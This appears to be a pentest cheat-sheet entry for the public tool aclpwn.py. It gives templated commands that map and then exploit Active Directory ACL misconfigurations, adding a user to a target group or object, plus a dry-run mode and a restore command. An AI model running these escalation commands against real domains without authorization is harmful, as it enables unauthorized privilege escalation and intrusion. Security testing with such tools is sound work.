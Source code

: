 ### Source
https://github.com/fox-it/aclpwn.py  

### Only show the escalation path and do not attempt to exploit
```
python3 aclpwn.py -f <user> -ft <userType> -d <domain> -dry
```

### Arguments
```
-f = the owned user or computer
-ft = user or computer
-t = the target object (given user will be added to this object) 
-u = user to add to object
-tt = type of the destination object (user, group, domain or computer)
```

### Exploit misconfiguration
```
python3 aclpwn.py -f <user> -ft <userType> -t <targetObject> -tt <typeOfObject> -d <domain> -du ne04j -dp <bloodhoundPw> -u <user>
```

### Restore privileges (restore file will automatically be generated while exploiting, use --server if domain controller can not be resolved)
```
python3 aclpwn.py --restore <file>.restore
```

